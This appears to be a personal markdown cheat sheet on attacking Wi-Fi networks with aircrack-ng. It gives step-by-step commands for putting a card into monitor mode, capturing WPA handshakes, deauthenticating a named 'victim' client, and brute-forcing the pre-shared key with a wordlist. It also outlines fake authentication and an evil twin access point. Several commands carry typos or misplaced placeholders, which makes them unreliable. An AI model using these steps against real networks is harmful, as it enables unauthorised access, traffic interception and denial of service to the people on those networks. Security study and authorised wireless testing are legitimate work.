 - [aircrack-ng tools](#aircrack-ng-tools)
- [steps](#steps)
  - [getting packages](#getting-packages)
  - [weak IV traffic](#weak-iv-traffic)
  - [evil twin](#evil-twin)

## aircrack-ng tools
- airmon-ng = monitor interface
  - airmon-ng start wlan0 = start monitoring
    - stop connections
- airmon-ng check = processes that may interfere with aircrack-ng
  - airmon-ng check kill = kill all processes (no internet)
  - Restore: 
    - airmon-ng stop connection (mode)
    - sudo service NetworkManager restart || sudo service network-manager restart || sudo service wpa_supplicant restart || sudo service dhclient restart
## steps
1 - kill process that can conflict = airmon-ng check kill
2 - turn network card to monitor mode = airmon-ng start [network_name]
3 - find AP around and capture traffic (also 4 handshake) = airodump [my_listener] --bsid [my_mac] --channel --write output
4 - deauthenticate an user to force 4 handshae =  aireplay-ng --deauth 0 -a [my_mac] -c [victim] [network_name]
5 - crack PSK - brute force = aircrak-ng -w [wordlist] -b [my_mac] [file.cap]

### getting packages
- airomon-ng start wlan0 = promiscuous mode interface to sniff wireles package (same channel)
- airodump-ng network (wlan0monl) = sniff packages
- airodump-ng wlan0mon --bssid [123] --channel [123] --write OUTPUT
- 
### weak IV traffic
- 
- fake authentication
  - aireplay-ng --fakeauth 0 -a MAC wlan0mon -h MAC-host
  - aireplay-ng --deauth 0 -e "name" wlan0mon
  - 
### evil twin
- create fale access point (ap)
- deauthenticate client
- force clien to connect to fake ap